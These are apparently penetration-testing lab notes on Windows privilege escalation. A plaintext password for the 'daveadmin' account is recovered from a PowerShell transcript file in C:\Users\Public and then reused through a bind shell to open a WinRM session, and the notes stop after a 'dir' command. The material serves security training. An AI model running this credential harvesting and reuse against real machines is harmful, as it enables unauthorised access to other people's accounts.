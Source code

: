 Let's analyze the transcript file in **`C:\Users\Public\Transcripts\transcript01.txt`** and check if we can shed more light on the user and password in use
+ Since the PowerShell Transcription started before Enter-PSSession was entered, it may contain the plain-text credential information used to create the PSCredential object stored in the variable _`$cred`_
```
PS C:\Users\dave> type C:\Users\Public\Transcripts\transcript01.txt
type C:\Users\Public\Transcripts\transcript01.txt
**********************
Windows PowerShell transcript start
Start time: 20220623081143
Username: CLIENTWK220\dave
RunAs User: CLIENTWK220\dave
Configuration Name: 
Machine: CLIENTWK220 (Microsoft Windows NT 10.0.22000.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 10336
PSVersion: 5.1.22000.282
...
**********************
Transcript started, output file is C:\Users\Public\Transcripts\transcript01.txt
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
PS C:\Users\dave> Stop-Transcript
**********************
Windows PowerShell transcript end
End time: 20220623081221
**********************
```
+ Above shows that the transcript file indeed contains the commands used to create the variable _$cred_, which were missing in the history file

To create the previously discussed PSCredential object, a user first needs to create a _SecureString_ to store the password
+ Then, the user can create the PSCredential object with the username and the stored password
+ The resulting variable, containing the object, can be used as argument for _-Credential_ in commands such as Enter-PSSession

Let's copy the three highlighted commands and paste it into our bind shell:
```
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
+ The output shows that we could use these three commands to start a PowerShell remoting session via WinRM on CLIENTWK220 as the user _daveadmin_
+ While whoami works, other commands do not:
```
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
cd C:\

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
pwd
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir